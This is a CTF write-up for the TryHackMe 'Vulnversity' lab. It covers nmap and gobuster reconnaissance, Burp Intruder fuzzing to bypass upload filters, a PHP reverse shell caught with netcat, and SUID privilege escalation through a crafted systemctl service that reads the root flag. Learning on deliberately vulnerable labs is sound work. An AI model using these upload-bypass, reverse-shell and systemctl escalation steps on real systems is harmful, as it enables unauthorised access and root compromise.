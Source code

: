 ```yaml
---
title: Writeup for TryHackMe room - Vulnversity
author: 4n3i5v74
date: 2021-01-17 00:00:00 +0530
categories: [CTF, TryHackMe]
tags: [tryhackme, writeup, ctf, web]
pin: true
---
```


## [Vulnversity](https://tryhackme.com/room/vulnversity){:target="_blank"}

This room is about performing recon and web attacks.


## Task 2 - Reconnaisance

Use these links as references.
- [NMAP Reference](https://4n3i5v74.github.io/posts/cheatsheet-nmap/){:target="_blank"}


Using `nmap` as below, all info can be gathered for the task.
{% capture code %}{% raw %}nmap -Pn -T4 -sV --reason --open <ip>{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 3 - Locating directories using Gobuster

Use these links as references.
- [Gobuster Reference](https://4n3i5v74.github.io/posts/cheatsheet-gobuster/){:target="_blank"}
- [Wordlist Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#wordlists---rockyou){:target="_blank"}


Using `gobuster` and `dirb` wordlists, find the child directories under web root.
{% capture code %}{% raw %}gobuster dir -u http://<ip>:3333 -w /usr/share/wordlists/dirb/common.txt -q{% endraw %}{% endcapture %} {% include code.html code=code %}

Use either `curl` or browser to load the pages from `gobuster` result and see if anything contains `upload` logic.
{% capture code %}{% raw %}curl http://<ip>:3333/<dir>/{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 4 - Compromise the webserver

Use these links as references.
- [Burpsuite Reference](https://4n3i5v74.github.io/posts/build-own-hacking-os/#install-burpsuite){:target="_blank"}


This task can be done using `burpsuite`.
- Open `firefox` and set proxy `127.0.0.1:8080`
- Open `burpsuite` and turn `intercept on`
- Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload a file
- In `burpsuite`, in `proxy` tab, select the content and `send to intruder`
- In `burpsuite`, in `intruder` tab, and in `positions` tab, select `sniper` attack type, `clear §`, and `add §` to filename extension
- In `burpsuite`, in `intruder` tab, and in `payloads` tab, load `/usr/share/wordlists/SecLists/Fuzzing/extensions-m1ost-common.fuzz.txt` and `start attack`
- Check the results for different response size to find which extensions are not blocked
- Quit `burpsuite` and reverse proxy setting in `firefox`

Download the [php reverse shell payload](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){:target="_blank"},and copy the file under extension `.phtml`. Edit the file and and change ip to local machine ip.

Start a netcat session to listen for reverse proxy connection.
{% capture code %}{% raw %}nc -lnvp 1234{% endraw %}{% endcapture %} {% include code.html code=code %}

Using the url previously found for uploading files, load the url `http://<ip>:3333/<dir>/` in `firefox` and upload payload file, and navigate to the url `http://<ip>:3333/<dir>/uploads/php-reverse-shell.phtml`. A reverse shell should have been created in the `netcat` listening terminal.

The `user` managing the web server and the `flag` can be retrieved from the shell.


## Task 5 - Privilege Escalation

Now the webserver is compromised and a shell access is gained. This task shows how to gain privilege escalation using `SUID`.

Find the commands which has `SUID` set. This allows normal user to gain root access temporarily. Any of the below command can be used to find the binaries allowing `SUID`.
{% capture code %}{% raw %}find / -perm /4000 2>&1 | grep -v “Permission denied”{% endraw %}{% endcapture %} {% include code.html code=code %}
{% capture code %}{% raw %}find / -user root -perm -4000 -exec ls -ldb {} \;{% endraw %}{% endcapture %} {% include code.html code=code %}

Since the binary found is `/bin/systemctl`, create a temporary `service file`, and run it, to gain `SUID` access.
{% capture code %}{% raw %}eop=$(mktemp).service{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl link $eop{% endraw %}{% endcapture %} {% include code.html code=code %}

{% capture code %}{% raw %}/bin/systemctl enable --now $eop{% endraw %}{% endcapture %} {% include code.html code=code %}


Capture the flag from the manipulated output file.
{% capture code %}{% raw %}cat /tmp/output{% endraw %}{% endcapture %} {% include code.html code=code %}

